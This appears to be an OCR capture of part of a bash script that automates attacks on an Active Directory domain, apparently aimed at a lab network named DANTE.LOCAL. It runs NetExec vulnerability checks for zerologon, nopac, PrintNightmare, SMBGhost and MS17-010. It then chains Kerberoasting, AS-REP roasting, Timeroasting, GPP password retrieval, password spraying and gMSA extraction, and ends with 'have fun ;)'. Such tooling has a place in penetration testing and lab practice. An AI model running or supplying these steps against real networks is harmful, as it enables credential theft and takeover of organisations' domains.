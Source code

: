 ```bash
	nxc smb 172.16.1.20 -u '' -p '' -d DANTE.LOCAL --dns-server 172.16.1.20 -M zerologon -M nopac -M printnightmare -M smbghost -M ms17-010 -M coerce_plus
	result
}


function main {
	echo -e "\n$CYAN --Synchronising clock with the DC...$NOCOLOR\n"
	clock_sync
	echo -e "\n$CYAN--Requesting kerberos ticket for $user...$NOCOLOR\n"
	get_TGT
	echo -e "\n$CYAN--Running Sharphound data collection...$NOCOLOR\n"
	collect_Bloodhound_data
	echo -e "\n$CYAN--Collecting users...$NOCOLOR\n"
	get_AD_users
	echo -e "\n$CYAN--Collecting groups...$NOCOLOR\n"
	get_AD_groups
	echo -e "\n$CYAN--Collecting computers...$NOCOLOR\n"
	get_AD_computers
	echo -e "\n$CYAN--Collecting users descriptions...$NOCOLOR\n"
	get_AD_users_desc
	echo -e "\n$CYAN--Identifying privileged users...$NOCOLOR\n"
	get_privileged_users
	echo -e "\n$CYAN--Retrieving DC shares...$NOCOLOR\n"
	get_DC_shares
	echo -e "\n$CYAN--Attempting Kerberoasting...$NOCOLOR\n"
	kerberoasting
	echo -e "\n$CYAN--Attempting ASREP-roasting...$NOCOLOR\n"
	asrep_roasting
	echo -e "\n$CYAN--Attempting Timeroasting...$NOCOLOR\n"
	timeroasting
	echo -e "\n$CYAN--Retrieving GPP passwords...$NOCOLOR\n"
	get_GPP_passwords
	echo -e "\n$CYAN--Getting the domain password policy...$NOCOLOR\n"
	get_password_policy
	echo -e "\n$CYAN--Spraying the given user's password...$NOCOLOR\n"
	password_spraying
	echo -e "\n$CYAN--Getting gMSA...$NOCOLOR\n"
	get_gMSA
	echo -e "\n$CYAN--Enumerating delegations...$NOCOLOR\n"
	get_delegations
	echo -e "\n$CYAN--Enumerating installed AV...$NOCOLOR\n"
	enum_AV
	echo -e "\n$GREEN--Enumeration fully completed, have fun ;)"
}

main
```



---
---
